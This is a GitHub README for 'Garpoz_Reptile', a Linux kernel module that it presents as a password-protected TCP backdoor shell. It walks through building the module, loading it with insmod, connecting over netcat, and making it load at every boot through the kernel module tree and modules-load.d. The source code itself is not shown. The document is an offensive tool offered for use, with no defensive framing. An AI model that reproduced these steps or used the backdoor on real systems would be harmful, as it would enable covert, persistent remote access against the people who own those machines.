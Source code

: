 # Garpoz_Reptile 🐍🍉

🚀 **Garpoz_Reptile – Kernel level TCP backdoor shell with password authentication**

---

## 📥 Installation

### 1) Install kernel headers

Check your running kernel version:

```bash
uname -r
```

Install matching headers for your distro:

**Debian, Ubuntu, Raspberry Pi OS**

```bash
sudo apt-get update
sudo apt-get install linux-headers-$(uname -r) build-essential
```

**Fedora, CentOS Stream, RHEL**

```bash
sudo dnf install kernel-devel-$(uname -r) gcc make
```

**Arch Linux**

```bash
sudo pacman -Syu --noconfirm
sudo pacman -S --noconfirm linux-headers base-devel
```

> Headers must match `$(uname -r)` or the build will fail.

---

### 2) Get the source

```bash
git clone https://github.com/GarpozMaster/Garpoz_Reptile.git
cd Garpoz_Reptile
```

The module source is now in your working directory.

---

## 🔧 Configure

Edit the file `Garpoz_Reptile.c` to set your port and password:

```c
#define PORT 9999
#define PASSWORD "change_me"
```

make it after changes:

```bash
make
```

---

## 🚀 Usage

### Activate the module

```bash
sudo insmod Garpoz_Reptile.ko
```

Verify it is loaded:

```bash
lsmod | grep Garpoz_Reptile
```

### Connect to it

Use netcat from the same host or a host that can reach the chosen IP and port:

```bash
nc -v <ip> <port>
# example for local test:
# nc -v 127.0.0.1 9999
```

You will be prompted for the password.

### Deactivate the module

```bash
sudo rmmod Garpoz_Reptile
```

---

## ♻️ Persistent load at boot

1. Copy the module to the kernel tree:

```bash
sudo cp Garpoz_Reptile.ko /lib/modules/$(uname -r)/kernel/drivers/
```

2. Regenerate dependencies:

```bash
sudo depmod -a
```

3. Create an autoload config:

```bash
echo Garpoz_Reptile | sudo tee /etc/modules-load.d/Garpoz_Reptile.conf
```

Now the module will load automatically on boot. ✅

---

## 🧰 Clean build artifacts

```bash
make clean
```

---

## 🛠️ Dependencies

* Matching kernel headers for `$(uname -r)`
* Standard toolchain: `make`, `gcc`
* Module tools: `insmod`, `rmmod`, `depmod`

---

## 📄 License

This project is licensed under **GPL**. See `LICENSE` for details.

---

Made with ⚡ by **GarpozMaster**
